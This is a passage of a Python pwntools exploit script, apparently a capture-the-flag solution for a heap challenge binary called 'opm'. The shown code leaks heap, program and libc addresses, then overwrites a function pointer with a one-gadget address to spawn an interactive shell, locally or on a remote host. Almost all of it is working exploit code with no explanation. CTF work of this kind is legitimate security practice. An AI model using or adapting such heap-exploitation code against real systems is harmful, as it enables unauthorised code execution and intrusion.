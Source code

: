 ```
    io.recvuntil('N punch?\n')
    io.sendline(Punch)
def show():
    io.recvuntil('(E)xit\n')
    io.sendline('S')
def exploit(flag):
    #leak heap_address
    add('A'*0x70,'0')
    add('B'*0x80+'\x10','1')
    add('C'*0x80,'2'+'C'*(0x80-1)+'\x10')

    io.recvuntil('<')
    io.recvuntil('B'*8)
    heap_base = u64(io.recvuntil('>',drop=True).ljust(0x8,'\x00'))
    log.info('heap_base:'+hex(heap_base))

    #leak proc_base
    add(p64(heap_base-0x1a0),'3'+"D"*0x7f+p64(heap_base+0xc0-0x8))
    io.recvuntil('<')
    proc = u64(io.recvuntil('>',drop=True).ljust(0x8,'\x00'))-0xb30
    log.info('proc_base:'+hex(proc))

    #leak libc_base
    log.info('printf_address:'+hex(proc+elf.got['printf']))
    add(p64(proc+elf.got['printf']+0x8),'4'+"E"*0x7f+p64(heap_base+0x110-0x8))
    io.recvuntil('<')
    puts = u64(io.recvuntil('>',drop=True).ljust(0x8,'\x00'))
    log.info('puts_addr:'+hex(puts))
    libc.address = puts-libc.symbols['puts']
    system = libc.symbols['system']
    binsh = next(libc.search('/bin/sh'))
    #修改role的func字段，直接执行one gadget获取shell
    one_gadget= libc.address+0x4526a
    log.info('system:'+hex(system))
    log.info('/bin/sh:'+hex(binsh))

    #Getshell
    add(p64(one_gadget)+';sh;','5'+"F"*0x7f+p64(heap_base+0x160))
    show()
    io.interactive()

if __name__ == "__main__":
    context.binary = "./opm"
    context.terminal = ['tmux','sp','-h']
    #context.log_level = 'debug'
    elf = ELF('./opm')
    if len(sys.argv)>1:
        io = remote(sys.argv[1],sys.argv[2])
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        exploit(0)
    else:
        io = process('./opm')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        print io.libs()
        libc_base = io.libs()['/lib/x86_64-linux-gnu/libc-2.23.so']
        log.info('libc_base:'+hex(libc_base))
        proc_base = io.libs()[os.getcwd()+'/opm']
        log.info('proc_base:'+hex(proc_base))
        exploit(1)

```

